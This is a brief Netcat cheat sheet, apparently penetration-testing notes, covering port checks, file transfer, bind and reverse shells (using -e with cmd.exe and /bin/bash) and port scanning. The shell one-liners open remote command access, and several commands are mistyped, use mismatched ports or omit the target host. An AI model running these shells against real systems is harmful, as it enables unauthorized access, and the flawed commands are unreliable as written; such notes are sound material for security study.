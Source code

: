 # Netcat

## Test open port

`nc -nv 192.168.1.125 22`

## Listening on a TCP/UDP Port

`nc -nlvp 2222`

## Transfering file using Netcat

### RECEIVER

`nc - nlvp 2222 > wget.exe`

### **SENDER**

`nc -nv 192.168.1.125 2222`

## Bind Shell

### LISTENER

The netcat traditional version of Netcat \(compiled with the "-DGAPING\_SECURITY\_HOLE" flag\) enables the -e option, which executes a program after making or receiving a successful connection.

`nc -nlvp 2222 -e cmd.exe`

With the above command, Netcat has bound TCP port 2222 to cmd.exe and will redirect any input, output, or error messages from cmd.exe

### CLIENT

`nc -nv 192.168.1.125 2222`

## REVERSE SHELL

### LISTENER

`nc - nlvp 2222`

### CLIENT \(Send Reverse shell\)

`nc -nv 192.168.1.125 4444 -e /bin/bash`

we use the -e option to make an application available remotely, which in this case happens to be /bin/bash

## TCP Scanning

### Port scan on ports 3000-3999

`nc -nvv -w 1 -z 3000-3999`

## UDP Scanning

`nc -nv -u -z - w 1 3000-3999`

